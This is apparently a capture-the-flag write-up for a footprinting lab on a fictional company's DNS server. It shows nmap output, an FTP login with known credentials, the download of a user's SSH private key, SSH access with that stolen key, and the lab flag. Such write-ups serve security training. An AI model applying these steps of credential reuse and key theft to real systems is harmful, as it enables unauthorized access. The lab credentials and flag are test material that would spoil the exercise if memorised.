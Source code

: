 # Footprinting - Easy Lab

**About:**

>We were commissioned by the company Inlanefreight Ltd to test three different servers in their internal network. The company uses many different services, and the IT security department felt that a penetration test was necessary to gain insight into their overall security posture.
>
>The first server is an internal DNS server that needs to be investigated. In particular, our client wants to know what information we can get out of these services and how this information could be used against its infrastructure. Our goal is to gather as much information as possible about the server and find ways to use that information against the company. However, our client has made it clear that it is forbidden to attack the services aggressively using exploits, as these services are in production.
>
>Additionally, our teammates have found the following credentials "ceil:qwer1234", and they pointed out that some of the company's employees were talking about SSH keys on a forum.
>
>The administrators have stored a flag.txt file on this server to track our progress and measure success. Fully enumerate the target and submit the contents of this file as proof.

---

**Goal:**

- *Enumerate the server carefully and find the flag.txt file. Submit the contents of this file as the answer.*

---

**Target Information:**

- Known credentials: `ceil:qwer1234`

---

**Enumeration:**

- nnmap

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-16 08:27 CDT
Nmap scan report for 10.129.150.116
PORT     STATE SERVICE VERSION
21/tcp   open  ftp
| fingerprint-strings:
|   GenericLines:
|     220 ProFTPD Server (ftp.int.inlanefreight.htb) [10.129.150.116]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
53/tcp   open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
2121/tcp open  ftp
| fingerprint-strings:
|   GenericLines:
|     220 ProFTPD Server (Ceil's FTP) [10.129.150.116]
```

---

**Initial Access:**

- ftp@ port 21 empty and owned by root
- ssh authentication failed needs certificate

- Successful ftp login @ 2121 w/ user credentials
  - Snatched users private key:

```bash
$ ftp -p $htb 2121
229 Entering Extended Passive Mode (|||10965|)
150 Opening ASCII mode data connection for file list
-rw-rw-r--   1 ceil     ceil          738 Nov 10  2021 authorized_keys
-rw-------   1 ceil     ceil         3381 Nov 10  2021 id_rsa
-rw-r--r--   1 ceil     ceil          738 Nov 10  2021 id_rsa.pub
226 Transfer complete
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||5579|)
150 Opening BINARY mode data connection for id_rsa (3381 bytes)
100% |********************************************************************************|  3381        6.44 MiB/s    00:00 ETA
226 Transfer complete
3381 bytes received in 00:00 (66.90 KiB/s)
```

- Gained  access to ssh with stolen private key:

```bash
$ ssh ceil@$htb -i id_rsa
The authenticity of host '10.129.150.116 (10.129.150.116)' can't be established.
ED25519 key fingerprint is SHA256:AtNYHXCA7dVpi58LB+uuPe9xvc2lJwA6y7q82kZoBNM.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:8: [hashed name]
    ~/.ssh/known_hosts:10: [hashed name]
    ~/.ssh/known_hosts:11: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.150.116' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 5.4.0-90-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 16 Aug 2025 01:45:22 PM UTC

  System load:  0.0               Processes:               160
  Usage of /:   86.7% of 3.87GB   Users logged in:         0
  Memory usage: 12%               IPv4 address for ens192: 10.129.150.116
  Swap usage:   0%

  => / is using 86.7% of 3.87GB


118 updates can be installed immediately.
1 of these updates is a security update.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Nov 10 05:48:02 2021 from 10.10.14.20
ceil@NIXEASY:~$
```

Flag found in /home/flag/flag.txt

```bash
ceil@NIXEASY:~$ ls -la /home/
total 20
drwxr-xr-x  5 root     root     4096 Nov 10  2021 .
drwxr-xr-x 20 root     root     4096 Mar 15  2024 ..
drwxr-xr-x  4 ceil     ceil     4096 Nov 10  2021 ceil
drwxr-xr-x  3 cry0l1t3 cry0l1t3 4096 Nov 10  2021 cry0l1t3
drwxr-xr-x  4 ceil     ceil     4096 Nov 10  2021 flag
ceil@NIXEASY:~$ cat /home/flag/flag.txt
HTB{--SNIP--hednrxihskjed7nzrgkweunj47zngrhdbkjhgdfbjkc7hgj}
```
